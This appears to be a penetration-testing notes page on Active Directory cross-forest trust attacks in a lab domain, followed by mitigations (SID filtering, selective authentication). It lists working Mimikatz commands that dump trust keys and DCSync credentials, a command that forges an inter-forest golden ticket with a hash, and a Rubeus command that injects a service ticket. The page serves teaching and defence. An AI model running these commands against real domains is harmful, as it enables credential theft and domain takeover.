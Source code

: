 ```yaml
---
title: "Cross-Forest Attacks"
description: "Cross-forest attacks."
lead: "Cross-forest attacks using trust keys and tickets."
date: 2021-11-06T11:53:35+01:00
lastmod: 2021-11-06T11:53:35+01:00
draft: false
images: []
menu: 
  active_directory:
    parent: "trust_attacks"
weight: 20
toc: true
---
```


## General

- Same attack flow as with cross-domain attacks
- But: trust between forest must be established manually
- No implicit trust
- Cannot abuse SID because of SID filtering
- We only get the privileges the user we are impersonating has in the target forest

## Exploitation

```powershell
# Get trust key for the inter-forest trust
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dcorp-dc
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\ecorp$"'

# Forge inter-forest TGT
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /user:Administrator /target:eurocorp.local /rc4:9a3dafc4139bc3fb7b6dade2a35d6f74 /service:krbtgt /ticket:forest_tgt.kirbi"'

# Request and inject TGS for CIFS service using Rubeus
.\Rubeus.exe asktgs /ticket:forest_tgt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt

# Check access
ls \\eurocorp-dc.eurocorp.local\SharedWithDCorp\
```

## Mitigation

### SID Filtering

- Avoid attacks which abuse SID history attribute across forest trust
- Enabled by default on all inter forest trusts. Intra forest trusts are assumed secured by default (MS considers forest and not the domain to be a security boundary)
- But, since SID filtering has potential to break applications and user access, it is often disabled

### Selective Authentication

- If configured in an inter-forest trust, users between trusts will not be automatically authenticated
- Invididual access to domains and servers in the trusting domain/forest should be given
